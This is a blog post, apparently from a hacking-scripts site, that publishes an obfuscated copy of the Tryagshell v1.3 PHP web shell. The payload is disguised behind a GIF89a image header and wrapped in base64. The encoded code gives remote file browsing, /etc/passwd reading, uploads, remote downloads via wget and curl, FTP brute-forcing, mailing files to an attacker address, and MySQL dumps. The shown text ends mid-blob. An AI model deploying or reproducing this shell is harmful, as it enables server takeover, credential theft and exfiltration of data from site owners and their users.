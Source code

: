 ```yaml
---
id: 90
title: Tryagshell v1.3 (encrypted)
author: admin
layout: post
guid: http://hackingscripts.com/?p=90
permalink: /tryagshell-encrypted/
categories:
  - PHP
  - Tryagshell
tags:
  - PHP
  - Tryagshell
---
```

This is the encoded version of the Tryagshell (version 1.3 apparently)

{% highlight php linenos %}GIF89aP;

<?

$tryag="LyoqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKio
qKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKioqKi8NCi8qDQov
KiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAjICAgICMgICAgICAgICMgICAgI
w0KLyogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIyAgICMgICAgICAgICAgIyA
gICMNCi8qICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIyAgICAjICAgICAgICAgIC
MgICAgIw0KLyogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAjICAgIyMgICAjIy
MjICAgIyMgICAjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIyMgICAjIyAgI
yMjIyMjICAjIyAgICMjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIyMgI
CAjIyAgIyMjIyMjICAjIyAgICMjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAg
IyMgICAjIyAgICMjIyMgICAjIyAgICMjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAgICAg
ICAgICAgIyMjICAgIyMjIyMjIyMjIyMjICAgIyMjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAg
ICAgICAgICAgIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjDQovKiAgICAgICAgICAgICAgICAgICA
gICAgICAgICAgICAgICAgICAgICAjIyMjIyMjIyMjIyMjIw0KLyogICAgICAgICAgICAgICAgICAgICA
gICAgICAgICAgICAjIyMjIyMjIyAjIyMjIyMjIyMjICMjIyMjIyMNCi8qICAgICAgICAgICAgIC
AgICAgICAgICAgICAgICAgICAjIyMgICAjIyAgIyMjIyMjIyMjIyAgIyMgICAjIyMNCi8qICAgICAgIC
AgICAgICAgICAgICAgICAgICAgICAgICAjIyMgICAjIyAgIyMjIyMjIyMjIyAgIyMgICAjIyMNC
i8qICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIyMjICAgIyAgIyMjIyMjIyMjIyAgIyAgI
CMjIw0KLyogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAjIyMgICAjIyAgIyMjIyMj
IyMgICMjICAgIyMjDQovKiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAjIyAgICAjICAg
IyMjIyMjICAgIyAgICAjIw0KLyogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICMjI
CAgIyAgICAjIyMjICAgIyAgICAjIw0KLyogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgI
CAgIyMgICAgICAgICAgICAgICAgICMjDQovKg0KLyoNCi8qDQovKiAgdHJ5YWdzaGVsbC5waHAgLS
A/6j/o7z8gP+Ag7z/vIO/u5+Lu6z8/+ejpIOLgPyDi++/u6z8/P/wgP+g/Pz8/P/s/IOruP+A/P/sgP+
AgPz8/4j8/PyD3Pz8/5yA/P+A/5z8/DQovKiAgP/sgP+4/Pz8/ID/q4PfgP/wgP+7iPz8g4j8/P+g
/ID/gID/gPz8/ID/g6T8/OiBodHRwOi8vcnN0LnZvaWQucnUNCi8qICA/Pz8/6D86IDEuMyAoMDUuMDM
uMjAwNikNCi8qfn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5+fn5
oJ3RleHQnLCd0ZXN0N19maWxlJyw5NiwoIWVtcHR5KCRfUE9TVFsndGVzdDdfZmlsZSddKT8oJF9QT1
NUWyd0ZXN0N19maWxlJ10pOigiL2V0Yy9wYXNzd2QiKSkpLmluKCdoaWRkZW4nLCdkaXInLDAsJGRpc
ikuaW4oJ2hpZGRlbicsJ2NtZCcsMCwndGVzdDcnKS53cyg0KS5pbignc3VibWl0Jywnc3VibWl0Jyww
LCRsYW5nWyRsYW5ndWFnZS4nX2J1dHQ4J10pKTsNCmVjaG8gJHRlLic8L2Rpdj4nLiR0YWJsZV9lbmQ
xLiRmZTsNCn0NCmlmKEBpbmlfZ2V0KCdmaWxlX3VwbG9hZHMnKSl7DQplY2hvICI8Zm9ybSBuYW1lPX
VwbG9hZCBtZXRob2Q9UE9TVCBFTkNUWVBFPW11bHRpcGFydC9mb3JtLWRhdGE+IjsNCmVjaG8gJHRhY
mxlX3VwMS4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0NSddLnVwX2Rvd24oJ2lkMTQnKS4kdGFibGVfdXAy
LmRpdignaWQxNCcpLiR0czsNCmVjaG8gc3IoMTUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDY
nXS4kYXJyb3cuIjwvYj4iLGluKCdmaWxlJywndXNlcmZpbGUnLDg1LCcnKSk7DQplY2hvIHNyKDE1LC
I8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQyMSddLiRhcnJvdy4iPC9iPiIsaW4oJ2NoZWNrYm94J
ywnbmYxIGlkPW5mMScsMCwnMScpLmluKCd0ZXh0JywnbmV3X25hbWUnLDgyLCcnKS5pbignaGlkZGVu
JywnZGlyJywwLCRkaXIpLndzKDQpLmluKCdzdWJtaXQnLCdzdWJtaXQnLDAsJGxhbmdbJGxhbmd1YWd
lLidfYnV0dDInXSkpOw0KZWNobyAkdGUuJzwvZGl2PicuJHRhYmxlX2VuZDEuJGZlOw0KfQ0KaWYoIS
RzYWZlX21vZGUmJiEkd2luZG93cyl7DQplY2hvICRmcy4kdGFibGVfdXAxLiRsYW5nWyRsYW5ndWFnZ
S4nX3RleHQxNSddLnVwX2Rvd24oJ2lkMTUnKS4kdGFibGVfdXAyLmRpdignaWQxNScpLiR0czsNCmVj
aG8gc3IoMTUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDE2J10uJGFycm93LiI8L2I+IiwiPHN
lbGVjdCBzaXplPVwiMVwiIG5hbWU9XCJ3aXRoXCI+PG9wdGlvbiB2YWx1ZT1cIndnZXRcIj53Z2V0PC
9vcHRpb24+PG9wdGlvbiB2YWx1ZT1cImZldGNoXCI+ZmV0Y2g8L29wdGlvbj48b3B0aW9uIHZhbHVlP
VwibHlueFwiPmx5bng8L29wdGlvbj48b3B0aW9uIHZhbHVlPVwibGlua3NcIj5saW5rczwvb3B0aW9u
PjxvcHRpb24gdmFsdWU9XCJjdXJsXCI+Y3VybDwvb3B0aW9uPjxvcHRpb24gdmFsdWU9XCJHRVRcIj5
HRVQ8L29wdGlvbj48L3NlbGVjdD4iLmluKCdoaWRkZW4nLCdkaXInLDAsJGRpcikud3MoMikuIjxiPi
IuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDE3J10uJGFycm93LiI8L2I+Ii5pbigndGV4dCcsJ3JlbV9ma
WxlJyw3OCwnaHR0cDovLycpKTsNCmVjaG8gc3IoMTUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4
dDE4J10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ2xvY19maWxlJywxMDUsJGRpcikud3MoNCkuaW4
oJ3N1Ym1pdCcsJ3N1Ym1pdCcsMCwkbGFuZ1skbGFuZ3VhZ2UuJ19idXR0MiddKSk7DQplY2hvICR0ZS
4nPC9kaXY+Jy4kdGFibGVfZW5kMS4kZmU7DQp9DQplY2hvICRmcy4kdGFibGVfdXAxLiRsYW5nWyRsY
W5ndWFnZS4nX3RleHQ4NiddLnVwX2Rvd24oJ2lkMTYnKS4kdGFibGVfdXAyLmRpdignaWQxNicpLiR0
czsNCmVjaG8gc3IoMTUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDU5J10uJGFycm93LiI8L2I
+IixpbigndGV4dCcsJ2RfbmFtZScsODUsJGRpcikuaW4oJ2hpZGRlbicsJ2NtZCcsMCwnZG93bmxvYW
RfZmlsZScpLmluKCdoaWRkZW4nLCdkaXInLDAsJGRpcikud3MoNCkuaW4oJ3N1Ym1pdCcsJ3N1Ym1pd
CcsMCwkbGFuZ1skbGFuZ3VhZ2UuJ19idXR0MTQnXSkpOw0KJGFyaCA9ICRsYW5nWyRsYW5ndWFnZS4n
X3RleHQ5MiddOw0KaWYoQGZ1bmN0aW9uX2V4aXN0cygnZ3pjb21wcmVzcycpKSB7ICRhcmggLj0gaW4
oJ3JhZGlvJywnY29tcHJlc3MnLDAsJ3ppcCcpLicgemlwJzsgICB9DQppZihAZnVuY3Rpb25fZXhpc3
RzKCdnemVuY29kZScpKSAgIHsgJGFyaCAuPSBpbigncmFkaW8nLCdjb21wcmVzcycsMCwnZ3ppcCcpL
icgZ3ppcCc7IH0NCmlmKEBmdW5jdGlvbl9leGlzdHMoJ2J6Y29tcHJlc3MnKSkgeyAkYXJoIC49IGlu
KCdyYWRpbycsJ2NvbXByZXNzJywwLCdiemlwJykuJyBiemlwJzsgfQ0KZWNobyBzcigxNSwiPGI+Ii4
kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0OTEnXS4kYXJyb3cuIjwvYj4iLGluKCdyYWRpbycsJ2NvbXByZX
NzJywwLCdub25lJykuJyAnLiRhcmgpOw0KZWNobyAkdGUuJzwvZGl2PicuJHRhYmxlX2VuZDEuJGZlO
w0KaWYoQGZ1bmN0aW9uX2V4aXN0cygiZnRwX2Nvbm5lY3QiKSl7DQplY2hvICR0YWJsZV91cDEuJGxh
bmdbJGxhbmd1YWdlLidfdGV4dDkzJ10udXBfZG93bignaWQxNycpLiR0YWJsZV91cDIuZGl2KCdpZDE
3JykuJHRzLiI8dHI+Ii4kZnMuIjx0ZCB2YWxpZ249dG9wIHdpZHRoPTUwJT4iLiR0czsNCmVjaG8gIj
xmb250IGZhY2U9VmVyZGFuYSBzaXplPS0yPjxiPjxkaXYgYWxpZ249Y2VudGVyIGlkPSduJz4iLiRsY
W5nWyRsYW5ndWFnZS4nX3RleHQ4NyddLiI8L2Rpdj48L2I+PC9mb250PiI7DQplY2hvIHNyKDI1LCI8
Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ4OCddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdmdHB
fc2VydmVyX3BvcnQnLDQ1LCghZW1wdHkoJF9QT1NUWydmdHBfc2VydmVyX3BvcnQnXSk/KCRfUE9TVF
snZnRwX3NlcnZlcl9wb3J0J10pOigiMTI3LjAuMC4xOjIxIikpKSk7DQplY2hvIHNyKDI1LCI8Yj4iL
iRsYW5nWyRsYW5ndWFnZS4nX3RleHQzNyddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdmdHBfbG9n
aW4nLDQ1LCghZW1wdHkoJF9QT1NUWydmdHBfbG9naW4nXSk/KCRfUE9TVFsnZnRwX2xvZ2luJ10pOig
iYW5vbnltb3VzIikpKSk7DQplY2hvIHNyKDI1LCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQzOC
ddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdmdHBfcGFzc3dvcmQnLDQ1LCghZW1wdHkoJF9QT1NUW
ydmdHBfcGFzc3dvcmQnXSk/KCRfUE9TVFsnZnRwX3Bhc3N3b3JkJ10pOigiYmlsbHlAbWljcm9zb2Z0
LmNvbSIpKSkpOw0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0ODknXS4kYXJ
yb3cuIjwvYj4iLGluKCd0ZXh0JywnZnRwX2ZpbGUnLDQ1LCghZW1wdHkoJF9QT1NUWydmdHBfZmlsZS
ddKT8oJF9QT1NUWydmdHBfZmlsZSddKTooIi9mdHAtZGlyL2ZpbGUiKSkpLmluKCdoaWRkZW4nLCdjb
WQnLDAsJ2Z0cF9maWxlX2Rvd24nKSk7DQplY2hvIHNyKDI1LCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4n
X3RleHQxOCddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdsb2NfZmlsZScsNDUsJGRpcikpOw0KZWN
obyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0OTAnXS4kYXJyb3cuIjwvYj4iLCI8c2
VsZWN0IG5hbWU9ZnRwX21vZGU+PG9wdGlvbj5GVFBfQklOQVJZPC9vcHRpb24+PG9wdGlvbj5GVFBfQ
VNDSUk8L29wdGlvbj48L3NlbGVjdD4iLmluKCdoaWRkZW4nLCdkaXInLDAsJGRpcikpOw0KZWNobyBz
cigyNSwiIixpbignc3VibWl0Jywnc3VibWl0JywwLCRsYW5nWyRsYW5ndWFnZS4nX2J1dHQxNCddKSk
7DQplY2hvICR0ZS4iPC90ZD4iLiRmZS4kZnMuIjx0ZCB2YWxpZ249dG9wIHdpZHRoPTUwJT4iLiR0cz
sNCmVjaG8gIjxmb250IGZhY2U9VmVyZGFuYSBzaXplPS0yPjxiPjxkaXYgYWxpZ249Y2VudGVyIGlkP
SduJz4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQxMDAnXS4iPC9kaXY+PC9iPjwvZm9udD4iOw0KZWNo
byBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0ODgnXS4kYXJyb3cuIjwvYj4iLGluKCd
0ZXh0JywnZnRwX3NlcnZlcl9wb3J0Jyw0NSwoIWVtcHR5KCRfUE9TVFsnZnRwX3NlcnZlcl9wb3J0J1
0pPygkX1BPU1RbJ2Z0cF9zZXJ2ZXJfcG9ydCddKTooIjEyNy4wLjAuMToyMSIpKSkpOw0KZWNobyBzc
igyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MzcnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0
JywnZnRwX2xvZ2luJyw0NSwoIWVtcHR5KCRfUE9TVFsnZnRwX2xvZ2luJ10pPygkX1BPU1RbJ2Z0cF9
sb2dpbiddKTooImFub255bW91cyIpKSkpOw0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2
UuJ190ZXh0MzgnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0JywnZnRwX3Bhc3N3b3JkJyw0NSwoIWVtc
HR5KCRfUE9TVFsnZnRwX3Bhc3N3b3JkJ10pPygkX1BPU1RbJ2Z0cF9wYXNzd29yZCddKTooImJpbGx5
QG1pY3Jvc29mdC5jb20iKSkpKTsNCmVjaG8gc3IoMjUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV
4dDE4J10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ2xvY19maWxlJyw0NSwkZGlyKSk7DQplY2hvIH
NyKDI1LCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ4OSddLiRhcnJvdy4iPC9iPiIsaW4oJ3Rle
HQnLCdmdHBfZmlsZScsNDUsKCFlbXB0eSgkX1BPU1RbJ2Z0cF9maWxlJ10pPygkX1BPU1RbJ2Z0cF9m
aWxlJ10pOigiL2Z0cC1kaXIvZmlsZSIpKSkuaW4oJ2hpZGRlbicsJ2NtZCcsMCwnZnRwX2ZpbGVfdXA
nKSk7DQplY2hvIHNyKDI1LCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ5MCddLiRhcnJvdy4iPC
9iPiIsIjxzZWxlY3QgbmFtZT1mdHBfbW9kZT48b3B0aW9uPkZUUF9CSU5BUlk8L29wdGlvbj48b3B0a
W9uPkZUUF9BU0NJSTwvb3B0aW9uPjwvc2VsZWN0PiIuaW4oJ2hpZGRlbicsJ2RpcicsMCwkZGlyKSk7
DQplY2hvIHNyKDI1LCIiLGluKCdzdWJtaXQnLCdzdWJtaXQnLDAsJGxhbmdbJGxhbmd1YWdlLidfYnV
0dDInXSkpOw0KZWNobyAkdGUuIjwvdGQ+Ii4kZmUuIjwvdHI+PC9kaXY+PC90YWJsZT4iOw0KfQ0KaW
YoJHVuaXggJiYgQGZ1bmN0aW9uX2V4aXN0cygiZnRwX2Nvbm5lY3QiKSl7DQplY2hvICRmcy4kdGFib
GVfdXAxLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ5NCddLnVwX2Rvd24oJ2lkMTgnKS4kdGFibGVfdXAy
LmRpdignaWQxOCcpLiR0czsNCmVjaG8gc3IoMTUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDg
4J10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ2Z0cF9zZXJ2ZXJfcG9ydCcsODUsKCFlbXB0eSgkX1
BPU1RbJ2Z0cF9zZXJ2ZXJfcG9ydCddKT8oJF9QT1NUWydmdHBfc2VydmVyX3BvcnQnXSk6KCIxMjcuM
C4wLjE6MjEiKSkpLmluKCdoaWRkZW4nLCdjbWQnLDAsJ2Z0cF9icnV0ZScpLndzKDQpLmluKCdzdWJt
aXQnLCdzdWJtaXQnLDAsJGxhbmdbJGxhbmd1YWdlLidfYnV0dDEnXSkpOw0KZWNobyBzcigxNSwiIiw
iPGZvbnQgZmFjZT1WZXJkYW5hIHNpemU9LTI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0OTknXS4iIC
ggPGEgaHJlZj0iLiRfU0VSVkVSWydQSFBfU0VMRiddLiI/dXNlcnM+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ
190ZXh0OTUnXS4iPC9hPiApPC9mb250PiIpOw0KZWNobyBzcigxNSwiIixpbignY2hlY2tib3gnLCdy
ZXZlcnNlIGlkPXJldmVyc2UnLDAsJzEnKS4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTAxJ10pOw0KZWN
obyAkdGUuJzwvZGl2PicuJHRhYmxlX2VuZDEuJGZlOw0KfQ0KaWYoQGZ1bmN0aW9uX2V4aXN0cygibW
FpbCIpKXsNCmVjaG8gJHRhYmxlX3VwMS4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTAyJ10udXBfZG93b
ignaWQxOScpLiR0YWJsZV91cDIuZGl2KCdpZDE5JykuJHRzLiI8dHI+Ii4kZnMuIjx0ZCB2YWxpZ249
dG9wIHdpZHRoPTUwJT4iLiR0czsNCmVjaG8gIjxmb250IGZhY2U9VmVyZGFuYSBzaXplPS0yPjxiPjx
kaXYgYWxpZ249Y2VudGVyIGlkPSduJz4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQxMDMnXS4iPC9kaX
Y+PC9iPjwvZm9udD4iOw0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTA1J
10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ3RvJyw0NSwoIWVtcHR5KCRfUE9TVFsndG8nXSk/KCRf
UE9TVFsndG8nXSk6KCJoYWNrZXJAbWFpbC5jb20iKSkpLmluKCdoaWRkZW4nLCdjbWQnLDAsJ21haWw
nKS5pbignaGlkZGVuJywnZGlyJywwLCRkaXIpKTsNCmVjaG8gc3IoMjUsIjxiPiIuJGxhbmdbJGxhbm
d1YWdlLidfdGV4dDEwNiddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdmcm9tJyw0NSwoIWVtcHR5K
CRfUE9TVFsnZnJvbSddKT8oJF9QT1NUWydmcm9tJ10pOigiYmlsbHlAbWljcm9zb2Z0LmNvbSIpKSkp
Ow0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTA3J10uJGFycm93LiI8L2I
+IixpbigndGV4dCcsJ3N1YmonLDQ1LCghZW1wdHkoJF9QT1NUWydzdWJqJ10pPygkX1BPU1RbJ3N1Ym
onXSk6KCJoZWxsbyBiaWxseSIpKSkpOw0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ
190ZXh0MTA4J10uJGFycm93LiI8L2I+IiwnPHRleHRhcmVhIG5hbWU9dGV4dCBjb2xzPTMzIHJvd3M9
Mj4nLighZW1wdHkoJF9QT1NUWyd0ZXh0J10pPygkX1BPU1RbJ3RleHQnXSk6KCJtYWlsIHRleHQgaGV
yZSIpKS4nPC90ZXh0YXJlYT4nKTsNCmVjaG8gc3IoMjUsIiIsaW4oJ3N1Ym1pdCcsJ3N1Ym1pdCcsMC
wkbGFuZ1skbGFuZ3VhZ2UuJ19idXR0MTUnXSkpOw0KZWNobyAkdGUuIjwvdGQ+Ii4kZmUuJGZzLiI8d
GQgdmFsaWduPXRvcCB3aWR0aD01MCU+Ii4kdHM7DQplY2hvICI8Zm9udCBmYWNlPVZlcmRhbmEgc2l6
ZT0tMj48Yj48ZGl2IGFsaWduPWNlbnRlciBpZD0nbic+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTA
0J10uIjwvZGl2PjwvYj48L2ZvbnQ+IjsNCmVjaG8gc3IoMjUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLi
dfdGV4dDEwNSddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCd0bycsNDUsKCFlbXB0eSgkX1BPU1RbJ
3RvJ10pPygkX1BPU1RbJ3RvJ10pOigiaGFja2VyQG1haWwuY29tIikpKS5pbignaGlkZGVuJywnY21k
JywwLCdtYWlsX2ZpbGUnKS5pbignaGlkZGVuJywnZGlyJywwLCRkaXIpKTsNCmVjaG8gc3IoMjUsIjx
iPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDEwNiddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdmcm
9tJyw0NSwoIWVtcHR5KCRfUE9TVFsnZnJvbSddKT8oJF9QT1NUWydmcm9tJ10pOigiYmlsbHlAbWljc
m9zb2Z0LmNvbSIpKSkpOw0KZWNobyBzcigyNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTA3
J10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ3N1YmonLDQ1LCghZW1wdHkoJF9QT1NUWydzdWJqJ10
pPygkX1BPU1RbJ3N1YmonXSk6KCJmaWxlIGZyb20gdHJ5YWdzaGVsbCIpKSkpOw0KZWNobyBzcigyNS
wiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MTgnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0Jywnb
G9jX2ZpbGUnLDQ1LCRkaXIpKTsNCmVjaG8gc3IoMjUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4
dDkxJ10uJGFycm93LiI8L2I+IixpbigncmFkaW8nLCdjb21wcmVzcycsMCwnbm9uZScpLicgJy4kYXJ
oKTsNCmVjaG8gc3IoMjUsIiIsaW4oJ3N1Ym1pdCcsJ3N1Ym1pdCcsMCwkbGFuZ1skbGFuZ3VhZ2UuJ1
9idXR0MTUnXSkpOw0KZWNobyAkdGUuIjwvdGQ+Ii4kZmUuIjwvdHI+PC9kaXY+PC90YWJsZT4iOw0Kf
Q0KaWYoJG15c3FsX29ufHwkbXNzcWxfb258fCRwZ19vbnx8JG9yYV9vbikNCnsNCiRzZWxlY3QgPSAn
PHNlbGVjdCBuYW1lPWRiPic7DQppZigkbXlzcWxfb24pICRzZWxlY3QgLj0gJzxvcHRpb24+TXlTUUw
8L29wdGlvbj4nOw0KaWYoJG1zc3FsX29uKSAkc2VsZWN0IC49ICc8b3B0aW9uPk1TU1FMPC9vcHRpb2
4+JzsNCmlmKCRwZ19vbikgICAgJHNlbGVjdCAuPSAnPG9wdGlvbj5Qb3N0Z3JlU1FMPC9vcHRpb24+J
zsNCmlmKCRvcmFfb24pICAgJHNlbGVjdCAuPSAnPG9wdGlvbj5PcmFjbGU8L29wdGlvbj4nOw0KJHNl
bGVjdCAuPSAnPC9zZWxlY3Q+JzsNCmVjaG8gJHRhYmxlX3VwMS4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh
0ODInXS51cF9kb3duKCdpZDIwJykuJHRhYmxlX3VwMi5kaXYoJ2lkMjAnKS4kdHMuIjx0cj4iLiRmcy
4iPHRkIHZhbGlnbj10b3Agd2lkdGg9NTAlPiIuJHRzOw0KZWNobyAiPGZvbnQgZmFjZT1WZXJkYW5hI
HNpemU9LTI+PGI+PGRpdiBhbGlnbj1jZW50ZXIgaWQ9J24nPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4
dDQwJ10uIjwvZGl2PjwvYj48L2ZvbnQ+IjsNCmVjaG8gc3IoMzUsIjxiPiIuJGxhbmdbJGxhbmd1YWd
lLidfdGV4dDgwJ10uJGFycm93LiI8L2I+Iiwkc2VsZWN0KTsNCmVjaG8gc3IoMzUsIjxiPiIuJGxhbm
dbJGxhbmd1YWdlLidfdGV4dDExMSddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdkYl9zZXJ2ZXInL
DE1LCghZW1wdHkoJF9QT1NUWydkYl9zZXJ2ZXInXSk/KCRfUE9TVFsnZGJfc2VydmVyJ10pOigibG9j
YWxob3N0IikpKS4nIDxiPjo8L2I+ICcuaW4oJ3RleHQnLCdkYl9wb3J0JywxNSwoIWVtcHR5KCRfUE9
TVFsnZGJfcG9ydCddKT8oJF9QT1NUWydkYl9wb3J0J10pOigiMzMwNiIpKSkpOw0KZWNobyBzcigzNS
wiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MzcnXS4nIDogJy4kbGFuZ1skbGFuZ3VhZ2UuJ190Z
Xh0MzgnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0JywnbXlzcWxfbCcsMTUsKCFlbXB0eSgkX1BPU1Rb
J215c3FsX2wnXSk/KCRfUE9TVFsnbXlzcWxfbCddKTooInJvb3QiKSkpLicgPGI+OjwvYj4gJy5pbig
ndGV4dCcsJ215c3FsX3AnLDE1LCghZW1wdHkoJF9QT1NUWydteXNxbF9wJ10pPygkX1BPU1RbJ215c3
FsX3AnXSk6KCJwYXNzd29yZCIpKSkpOw0KZWNobyBzcigzNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ
190ZXh0MzYnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0JywnbXlzcWxfZGInLDE1LCghZW1wdHkoJF9Q
T1NUWydteXNxbF9kYiddKT8oJF9QT1NUWydteXNxbF9kYiddKTooIm15c3FsIikpKS4nIDxiPi48L2I
+ICcuaW4oJ3RleHQnLCdteXNxbF90YmwnLDE1LCghZW1wdHkoJF9QT1NUWydteXNxbF90YmwnXSk/KC
RfUE9TVFsnbXlzcWxfdGJsJ10pOigidXNlciIpKSkpOw0KZWNobyBzcigzNSxpbignaGlkZGVuJywnZ
GlyJywwLCRkaXIpLmluKCdoaWRkZW4nLCdjbWQnLDAsJ215c3FsX2R1bXAnKS4iPGI+Ii4kbGFuZ1sk
bGFuZ3VhZ2UuJ190ZXh0NDEnXS4kYXJyb3cuIjwvYj4iLGluKCdjaGVja2JveCcsJ2RpZiBpZD1kaWY
nLDAsJzEnKS5pbigndGV4dCcsJ2RpZl9uYW1lJywzMSwoIWVtcHR5KCRfUE9TVFsnZGlmX25hbWUnXS
k/KCRfUE9TVFsnZGlmX25hbWUnXSk6KCJkdW1wLnNxbCIpKSkpOw0KZWNobyBzcigzNSwiIixpbignc
3VibWl0Jywnc3VibWl0JywwLCRsYW5nWyRsYW5ndWFnZS4nX2J1dHQ5J10pKTsNCmVjaG8gJHRlLiI8
L3RkPiIuJGZlLiRmcy4iPHRkIHZhbGlnbj10b3Agd2lkdGg9NTAlPiIuJHRzOw0KZWNobyAiPGZvbnQ
gZmFjZT1WZXJkYW5hIHNpemU9LTI+PGI+PGRpdiBhbGlnbj1jZW50ZXIgaWQ9J24nPiIuJGxhbmdbJG
xhbmd1YWdlLidfdGV4dDgzJ10uIjwvZGl2PjwvYj48L2ZvbnQ+IjsNCmVjaG8gc3IoMzUsIjxiPiIuJ
GxhbmdbJGxhbmd1YWdlLidfdGV4dDgwJ10uJGFycm93LiI8L2I+Iiwkc2VsZWN0KTsNCmVjaG8gc3Io
MzUsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDExMSddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQ
nLCdkYl9zZXJ2ZXInLDE1LCghZW1wdHkoJF9QT1NUWydkYl9zZXJ2ZXInXSk/KCRfUE9TVFsnZGJfc2
VydmVyJ10pOigibG9jYWxob3N0IikpKS4nIDxiPjo8L2I+ICcuaW4oJ3RleHQnLCdkYl9wb3J0JywxN
SwoIWVtcHR5KCRfUE9TVFsnZGJfcG9ydCddKT8oJF9QT1NUWydkYl9wb3J0J10pOigiMzMwNiIpKSkp
Ow0KZWNobyBzcigzNSwiPGI+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0MzcnXS4nIDogJy4kbGFuZ1s
kbGFuZ3VhZ2UuJ190ZXh0MzgnXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0JywnbXlzcWxfbCcsMTUsKC
FlbXB0eSgkX1BPU1RbJ215c3FsX2wnXSk/KCRfUE9TVFsnbXlzcWxfbCddKTooInJvb3QiKSkpLicgP
GI+OjwvYj4gJy5pbigndGV4dCcsJ215c3FsX3AnLDE1LCghZW1wdHkoJF9QT1NUWydteXNxbF9wJ10p
